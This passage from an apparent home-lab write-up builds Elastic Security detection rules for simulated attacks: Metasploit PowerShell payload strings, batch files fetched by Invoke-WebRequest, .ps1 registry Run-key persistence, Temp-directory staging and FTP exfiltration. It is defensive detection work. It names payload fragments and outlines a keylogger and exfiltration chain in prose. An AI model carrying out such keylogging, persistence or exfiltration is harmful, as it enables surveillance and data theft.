> The reason why alert suppression is needed is to avoid creating multiple alerts for one particular event. We can suppress by individual host machines (`host.hostname`) to ensure we don't creating multiple alerts on one particular event on a specific host, but leave room to allow alerts to generate if another host machine is exhibiting unusual batch file/PowerShell activity.


About Rule
- Name: PowerShell Execution via Batch File

- Description: Sysmon identifying PowerShell script execution via batch file.

- Severity: High

- Risk Score: 75

- Advanced Settings
    - MITRE ATT&CK Threats
        - Tactic: Execution (TA0002)
        - Technique: Command and Scripting interpreter (T1059)
        - Subtechnique: PowerShell (T1059.001)

Schedule Rule

- Runs every: 5 Minutes

- Additional look-back time: 5 Minutes


## Query-Based Detection #3

Using the context of batch files being downloaded by a `Invoke-WebRequest` command in PowerShell, we can build a detection that hones in on this event with the query below.

```
event.dataset: "windows.sysmon_operational" and process.parent.name: powershell.exe and process.parent.command_line: *Invoke-WebRequest* and process.command_line: *bat*
```

To build a query-based detection alert, navigate to Security > Rules > Detection Rules > Create new rule > Custom query and paste in the query we created above into the Custom query field. The following details and settings below can be applied to the rule.

Define Rule

- Custom Query: `event.dataset: event.dataset: "windows.sysmon_operational" and process.parent.name: powershell.exe and process.parent.command_line: *Invoke-WebRequest* and process.command_line: *bat*`

- Suppress alerts by: `host.hostname`

- Suppress per time period: 5 Minutes

>[!NOTE]  
> The reason why alert suppression is needed is to avoid creating multiple alerts for one particular event. We can suppress by individual host machines (`host.hostname`) to ensure we don't creating multiple alerts on one particular event on a specific host, but leave room to allow alerts to generate if another host machine is exhibiting unusual batch file downloads launched by PowerShell.


About Rule
- Name: Batch File Downloaded via PowerShell Invoke-WebRequest 

- Description: Sysmon identifying batch files downloaded by PowerShell Invoke-WebRequest command.

- Severity: High

- Risk Score: 75

- Advanced Settings
    - MITRE ATT&CK Threats
        - Tactic: Execution (TA0002)
        - Technique: Command and Scripting interpreter (T1059)
        - Subtechnique: PowerShell (T1059.001)

Schedule Rule

- Runs every: 5 Minutes

- Additional look-back time: 5 Minutes


## Query-Based Detection #4

Using the context identifying specific strings contained in Metasploit reverse shell payload, we can build a detection that hones in on this event with the query below.

```
event.dataset: "windows.sysmon_operational" and process.command_line: \"cmd.exe\" and message: "*powershell -w hidden -nop -c $a='*"
```


>[!NOTE]  
> The field `message` is used instead as the `process.parent.command_line` field was marked as an Ignored Value (can't be searched or filtered for) due to being too long. The `message` field contains the string we're looking for and is searchable, thus makes a good alternative to include as part of the query.


To build a query-based detection alert, navigate to Security > Rules > Detection Rules > Create new rule > Custom query and paste in the query we created above into the Custom query field. The following details and settings below can be applied to the rule.

Define Rule

- Custom Query: `event.dataset: "windows.sysmon_operational" and process.command_line: \"cmd.exe\" and message: "*powershell -w hidden -nop -c $a='*"`

- Suppress alerts by: `host.hostname`

- Suppress per time period: 5 Minutes

>[!NOTE]  
> The reason why alert suppression is needed is to avoid creating multiple alerts for one particular event. We can suppress by individual host machines (`host.hostname`) to ensure we don't creating multiple alerts on one particular event on a specific host, but leave room to allow alerts to generate if another host machine is executing a command that contains the matched unusual string.


About Rule
- Name: Potential Metasploit PowerShell Payload Observed 

- Description: Sysmon identifying command line strings that potentially match a Metasploit (msfvenom) PowerShell payload.

- Severity: High

- Risk Score: 75

- Advanced Settings
    - MITRE ATT&CK Threats
        - Tactic: Execution (TA0002)
        - Technique: Command and Scripting interpreter (T1059)
        - Subtechnique: PowerShell (T1059.001)

Schedule Rule

- Runs every: 5 Minutes

- Additional look-back time: 5 Minutes


## Alert Confirmation

After repeating our attack, we can see that all four alerts have been triggered within our Security Alerts Dashboard.


A cool feature of Elastic Cloud is being able to visually analyze alerts and the timeline of events. Here, we're expanding our Potential Metasploit PowerShell Payload Observed alert and can click on each node to view more details and visually observe the general flow of events.


# Alert Scenario 3: Registry Edits, Data Staging, and Exfiltration

## Overview
A dropper file located on the Windows 11 VM will contain a script to determine if Microsoft Defender is enabled or disabled. If Microsoft Defender is disabled, then the dropper file will then execute a script to create a directory at path `C:\Windows\Temp\exfil` in addition to downloading 2 malicious PowerShell scripts from the ParrotOS VM - One titled "Keylogger.ps1" and another titled "Exfil.ps1". The script then adds to the Windows Registry commands to execute the two malicious PowerShell scripts at the time of bootup.

The Keylogger.ps1 script captures user keystrokes and stores it in a text file called keylogger.txt in `C:\Windows\Temp\exfil`.

The Exfil.ps1 script runs the `systeminfo` command and stores the contents in a file called sysinfo.txt in a desiginated file directory. The script then crawls to the file directory containing the user's Internet Edge browsing history and copies/zips it to `C:\Windows\Temp\exfil`. The script then connects to a FTP server hosted on the ParrotOS VM where exfil.zip is then transmitted over.


1. when ps1 files get added to registry
2. System info and browser info manipulated
3. When data is zipped
4. FTP and exfil activity

## Conducting the Attack
Documentation to be updated.


## Alert Context and Query-Based Detection #1
We know that logs regarding registry changes and edits can be captured with Sysmon (`windows.sysmon_operational`) and we are concern that there are PowerShell commands within the registry path that runs everytime the VM is booted up. We can run the below query to hone in and build a detection on this behavior.

```
event.dataset: "windows.sysmon_operational" and event.action: "RegistryEvent (Value Set)" and registry.path: *Microsoft\\\\Windows\\\\CurrentVersion\\\\Run* and registry.data.strings: *.ps1
```


Additionally, we would want to toggle fields with values that may be interesting to us and can provide the relevant context of registry edits and changes. Some questions that come to mind are

- What is the executable process?
- What is the unusual registry key?
- What is the unusual registry path?
- What is the strings found within the registry data?
- Which host machine is affected?

The fields `process.executable`, `registry.key`, `registry.path`, `registry.data.strings`, and `host.hostname` can be toggled on to answer these questions and provide context.


```
event.dataset: "windows.sysmon_operational" and event.action: "RegistryEvent (Value Set)" and registry.path: *Microsoft\\\\Windows\\\\CurrentVersion\\\\Run* and registry.data.strings: *.ps1
```


To build a query-based detection alert, navigate to Security > Rules > Detection Rules > Create new rule > Custom query and paste in the query we created above into the Custom query field. The following details and settings below can be applied to the rule.

Define Rule

- Custom Query: `event.dataset: "windows.sysmon_operational" and event.action: "RegistryEvent (Value Set)" and registry.path: *Microsoft\\\\Windows\\\\CurrentVersion\\\\Run* and registry.data.strings: *.ps1`

- Suppress alerts by: `host.hostname`

- Suppress per time period: 5 Minutes

>[!NOTE]  
> The reason why alert suppression is needed is to avoid creating multiple alerts for one particular event. We can suppress by individual host machines (`host.hostname`) to ensure we don't creating multiple alerts on one particular event on a specific host, but leave room to allow alerts to generate if another host machine is exhibiting unusual registry keys/changes that reference PowerShell.


About Rule
- Name: Suspicious File Added to Registry

- Description: Sysmon identifying .ps1 files added to autorun during bootup location in the Windows Registry.

- Severity: Critical

- Risk Score: 100

- Advanced Settings
    - MITRE ATT&CK Threats
        - Tactic: Persistence (TA0003)
        - Technique: Boot or Logon Autostart Exeuction (T1547)
        - Subtechnique: Registry Run Keys / Startup Folder (T1547.001)

Schedule Rule

- Runs every: 5 Minutes

- Additional look-back time: 5 Minutes


## Alert Context and Query-Based Detection #2

Logs pertaining to file creations and modifications can be found within a Endpoint Event log (`endpoint.events.file`). We know that file creations or updates should have values of `creation` or `overwrite` and we are concern the file creations/updates are associated to a PowerShell process targeting the `C:\Windows\Temp\` directory. We can run the below query to hone in and build a detection on this behavior.

```
event.dataset: "endpoint.events.file" and event.action: (creation or overwrite) and process.name: "powershell.exe" and file.path: *Windows\\\\Temp\\\\*
```

Additionally, we would want to toggle fields with values that may be interesting to us and can provide the relevant context of registry edits and changes. Some questions that come to mind are:

- What is the unusual file path?
- What is the unusual file name?
- What is the process associated with the unusual file?
- Which host machine is affected?

The fields `file.path`, `file.name`, `process.name`, and `host.hostname` can be toggled on to answer these questions and provide context.


To build a query-based detection alert, navigate to Security > Rules > Detection Rules > Create new rule > Custom query and paste in the query we created above into the Custom query field. The following details and settings below can be applied to the rule.

Define Rule

- Custom Query: `event.dataset: "endpoint.events.file" and event.action: (creation or overwrite) and process.name: "powershell.exe" and file.path: *Windows\\\\Temp\\\\*`

- Suppress alerts by: `host.hostname`

- Suppress per time period: 5 Minutes

>[!NOTE]  
> The reason why alert suppression is needed is to avoid creating multiple alerts for one particular event. We can suppress by individual host machines (`host.hostname`) to ensure we don't creating multiple alerts on one particular event on a specific host, but leave room to allow alerts to generate if another host machine is exhibiting suspicious files being written to Temp involving PowerShell.


About Rule
- Name: Suspicious File Written to Temp Directory

- Description: Endpoint identifying files being written to Windows\Temp directory involving PowerShell.

- Severity: Critical

- Risk Score: 100

- Advanced Settings
    - MITRE ATT&CK Threats
        - Tactic: Collection (T1119)
        - Technique: Data Staged (T1074)
        - Subtechnique: Local File Copy (T1105.001)

Schedule Rule

- Runs every: 5 Minutes

- Additional look-back time: 5 Minutes


## Alert Context and Query-Based Detection #3

Logs pertaining to file creations and modifications can be found within a Endpoint Event log (`endpoint.events.file`). We know that file creations or updates should have values of `creation` or `overwrite` and we are concern the file creations/updates are associated to a PowerShell process targeting the `C:\Windows\Temp\` directory. This is similar to our Query-Based Detection #2, however we've added on `file.name: *zip` which may be a indicator that data being prepped for exfiltration. We can run the below query to hone in and build a detection on this behavior.

```
event.dataset: "endpoint.events.file" and event.action: (creation or overwrite) and process.name: "powershell.exe" and file.path: *Windows\\\\Temp\\\\* and file.name: *zip
```

Additionally, we would want to toggle fields with values that may be interesting to us and can provide the relevant context of registry edits and changes. Some questions that come to mind are:

- What is the unusual file path?
- What is the unusual file name?
- What is the process associated with the unusual file?
- Which host machine is affected?

The fields `file.path`, `file.name`, `process.name`, and `host.hostname` can be toggled on to answer these questions and provide context.


To build a query-based detection alert, navigate to Security > Rules > Detection Rules > Create new rule > Custom query and paste in the query we created above into the Custom query field. The following details and settings below can be applied to the rule.

Define Rule

- Custom Query: `event.dataset: "endpoint.events.file" and event.action: (creation or overwrite) and process.name: "powershell.exe" and file.path: *Windows\\\\Temp\\\\* and file.name: *zip`

- Suppress alerts by: `host.hostname`

- Suppress per time period: 5 Minutes

>[!NOTE]  
> The reason why alert suppression is needed is to avoid creating multiple alerts for one particular event. We can suppress by individual host machines (`host.hostname`) to ensure we don't creating multiple alerts on one particular event on a specific host, but leave room to allow alerts to generate if another host machine is exhibiting suspicious files being written to Temp involving PowerShell.


About Rule
- Name: Data Archive for Potential Exfil

- Description: Endpoint identifying .zip files created by PowerShell in the Windows/Temp directory.

- Severity: Critical

- Risk Score: 100

- Advanced Settings
    - MITRE ATT&CK Threats
        - Tactic: Collection (T1119)
        - Technique: Data Staged (T1074)
        - Subtechnique: Local File Copy (T1105.001)

Schedule Rule

- Runs every: 5 Minutes

- Additional look-back time: 5 Minutes


## Alert Context and Query-Based Detection #4
Logs pertaining to FTP traffic can be found within Zeek (`zeek.ftp`). We know that if there has been any attempts to transmit data, then the `event.action` field should have a value of `STOR`. While we could be even more specific in our query and look for .zip files, it may be too specific and overlook the possibility that non-zipped data was exfiltrated, like a regular text file. We can run the below query to hone in and build a detection on this behavior.


```
event.dataset: zeek.ftp and event.action: STOR
```

Additionally, we would want to toggle fields with values that may be interesting to us and can provide the relevant context of registry edits and changes. Some questions that come to mind are:

- What is the source IP address?
- What is the destination IP addresss/port?
- What is the name associated with the FTP server?
- What is the FTP action?
- What is the file name/file directory the data is being exfitlrated to?
- Are there any Zeek FTP messages?

The fields `source.ip`, `destination.ip`, `destination.port`, `related.user`, `event.action`, `zeek.ftp.arg`, and `zeek.ftp.reply.msg` can be toggled on to answer these questions and provide context.


To build a query-based detection alert, navigate to Security > Rules > Detection Rules > Create new rule > Custom query and paste in the query we created above into the Custom query field. The following details and settings below can be applied to the rule.

Define Rule

- Custom Query: `event.dataset: zeek.ftp and event.action: STOR`

- Suppress alerts by: `destination.ip`

- Suppress per time period: 5 Minutes

>[!NOTE]  
> The reason why alert suppression is needed is to avoid creating multiple alerts for one particular event. We can suppress by the destination IP address (`destination.ip`) to ensure we don't creating multiple alerts on one particular single large event. It could be possible that data is not exfiltrated by one large .zip, but through several multiple files. If data is exfiltrated to a different destination IP address, then another alert should trigger.


About Rule
- Name: Data Exfiltration over Port 21/FTP

- Description: Zeek FTP identifying data exfiltration over Port 21/FTP

- Severity: Critical

- Risk Score: 100

- Advanced Settings
    - MITRE ATT&CK Threats
        - Tactic: Exfiltration (TA0010)
        - Technique: Automated Exfiltration (T1020)

Schedule Rule

- Runs every: 5 Minutes

- Additional look-back time: 5 Minutes


# Alert Confirmation

After repeating our attack, we can see that all four alerts have been triggered within our Security Alerts Dashboard.


We can open up the visual analyzer for the Suspicious File Added to Registry and Suspicious File Written to Temp Directory alerts and observe the general flow of events.


